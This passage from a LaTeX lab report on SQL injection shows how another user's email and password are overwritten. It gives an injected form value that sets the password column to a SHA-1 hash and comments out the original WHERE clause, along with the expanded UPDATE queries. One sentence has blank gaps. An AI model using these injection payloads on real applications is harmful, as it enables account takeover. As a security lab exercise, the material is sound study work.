 \begin{minipage}{\linewidth}
\begin{lstlisting}[caption={Email overwrite expansion},
label={lst:l4_t2p1_compatkres},
frame=single]
"UPDATE user SET name='bob',email='peter@evil.com',tel1='', tel2='',
company='' WHERE name = 'bob'#',
zip='',gender='',url='',adress='',adress2='',state='',
country='',tags='',locale='',rate='0' WHERE ID = 5"
\end{lstlisting}
\end{minipage}

\subsubsection{Part 2 - Change Bob's password}
Changing Bob's password is less straightforward as the password itself is stored as a hash. In order to give Bob's password a new value, we must first encode the new password using SHA-1. If the new password is "peter", then the hash would be "4b8373d016f277527198385ba72fda0feb5da015".

After obtaining the new password hash, we apply an injection similar to Task 2.1. Instead of putting the hash in the actual password fields, we embed the value pair in the injection. This is because in order for the redirection to work, the real search criteria (WHERE ID = 5) must be commented out. Doing so comes with a price of having to comment out all value pairs before the real search critera up to our new, fake search criteria (name = 'bob'). We therefore arrive at  and hence .

\begin{minipage}{\linewidth}
\begin{lstlisting}[caption={Password overwrite injection},
label={lst:l4_t2p2_pwdatk},
frame=single]
$company = "', pass='4b8373d016f277527198385ba72fda0feb5da015'
               WHERE name = 'bob'#"
\end{lstlisting}
\end{minipage}

\begin{minipage}{\linewidth}
\begin{lstlisting}[caption={Password overwrite expansion},
label={lst:l4_t2p2_pwdatkres},
frame=single]
"UPDATE user SET name='bob',email='peter@evil.com',tel1='',tel2='',
company='', pass='4b8373d016f277527198385ba72fda0feb5da015'
WHERE name = 'bob'#',
zip='',gender='',url='',adress='',adress2='',
state='',country='',tags='',locale='',rate='0' WHERE ID = 5"
\end{lstlisting}
\end{minipage}

